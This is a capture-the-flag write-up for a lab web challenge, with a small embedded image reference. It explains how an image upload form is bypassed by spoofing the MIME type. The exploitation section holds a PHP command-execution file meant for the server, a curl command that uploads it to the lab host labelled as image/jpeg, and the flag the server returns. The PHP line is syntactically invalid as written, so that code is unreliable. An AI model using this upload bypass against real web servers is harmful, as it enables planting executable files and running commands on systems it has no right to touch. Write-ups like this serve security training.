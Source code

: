 # **Description:**

The challenge presented an image upload form that only accepted image files. The goal was to bypass the restriction and upload a PHP file to execute arbitrary commands on the server.

## **Vulnerability:**

The file upload feature did not properly validate MIME types on the server side, allowing an attacker to spoof the content type and upload non-image files.

## **Exploitation:**

### `Crafting the Malicious File:`
A PHP file was created with the following content:
```
<?php exec "ls" ?>
```
This command lists the contents of the directory upon execution.

### `Bypassing MIME Type Restrictions:`
To upload the PHP file while bypassing the restriction, the MIME type was changed using the `curl` command:
```
curl -X POST -F "Upload=Upload" -F "uploaded=@file.php;type=image/jpeg" "http://10.11.100.245/index.php?page=upload"
```
By setting the file type to `image/jpeg`, the server accepted the PHP file as an image.

### `Upload Form Analysis:`
The upload form on the website:
```
<form enctype="multipart/form-data" action="#" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
    Choose an image to upload:  <br />
    <input name="uploaded" type="file" /><br />
    <br />
    <input type="submit" name="Upload" value="Upload">
</form>
```
This form allows file uploads but does not enforce server-side verification of the file type beyond what the browser reports.

### `Flag Retrieval:`
After executing the `curl` command, the server responded with an HTML page containing the flag:
```
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```
The flag `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8` was successfully extracted.
